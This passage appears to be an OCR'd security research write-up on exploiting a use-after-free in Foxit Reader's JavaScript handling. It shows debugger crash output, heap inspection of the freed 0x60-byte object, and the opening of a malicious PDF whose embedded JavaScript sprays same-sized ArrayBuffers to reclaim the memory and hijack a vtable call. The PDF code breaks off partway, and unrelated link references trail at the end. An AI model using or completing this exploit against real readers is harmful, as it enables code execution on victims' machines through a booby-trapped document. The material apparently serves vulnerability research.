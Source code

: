 ```
(31c.f70): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=1911bfa0 ebx=00000000 ecx=1911bfa0 edx=18b08001 esi=193aaff8 edi=1845ffc8
eip=008ecfb9 esp=03b7e814 ebp=03b7e82c iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00210206
FoxitReader!CertFreeCertificateChain+0x150bd9:
008ecfb9 8b01            mov     eax,dword ptr [ecx]  ds:0023:1911bfa0=????????

0:000> u . L4
FoxitReader!CertFreeCertificateChain+0x150bd9:
008ecfb9 8b01            mov     eax,dword ptr [ecx]
008ecfbb 8b5008          mov     edx,dword ptr [eax+8]
008ecfbe 56              push    esi
008ecfbf ffd2            call    edx
```

<p class="cn" markdown="1">This is classic use-after-free with no CFG protection vtable call, so all we really need to do it control the allocation. We already know that we can disclose memory locations.</p>

#### Exploitation

<p class="cn" markdown="1">We can disable page heap and set a breakpoint at the crash location to find the size of the freed object.</p>

```
0:018> bp FoxitReader!CertFreeCertificateChain+0x150bd9
0:018> g
Breakpoint 0 hit
eax=075619a8 ebx=00000000 ecx=075619a8 edx=37c08001 esi=076d87f8 edi=076d8de8
eip=014bcfb9 esp=0026e284 ebp=0026e29c iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200206
FoxitReader!CertFreeCertificateChain+0x150bd9:
014bcfb9 8b01            mov     eax,dword ptr [ecx]  ds:0023:075619a8=02bc0147
0:000> !heap -p -a @ecx
    address 075619a8 found in
    _HEAP @ 6c0000
      HEAP_ENTRY Size Prev Flags    UserPtr UserSize - state
        075619a0 000d 0000  [00]   075619a8    00060 - (free)
```

<p class="cn" markdown="1">We can see that the object is of size 0x60 and we can use a TypedArray to take control just after the free.</p>

```JavaScript
%PDF 
1 0 obj
<</Pages 1 0 R /OpenAction 2 0 R>> 
2 0 obj
<</S /JavaScript /JS (

function reclaim(){
    var arr = new Array(0x10);
    for (var i = 0; i < arr.length; i++) {
        arr[i] = new ArrayBuffer(0x60);
        var rop = new Int32Array(arr[i]);
        for (var j = 0; j < rop.length; j++) {
            rop[j] = 0x41414141;
        }
    }
}

// create an annotation
var a = this.addAnnot({type:"Text", page: 0, name:"uaf"});

```

[docker]: https://www.docker.com/docker-windows
[ysoserial.net]: https://github.com/pwntester/ysoserial.net
[@tiraniddo's]: https://twitter.com/tiraniddo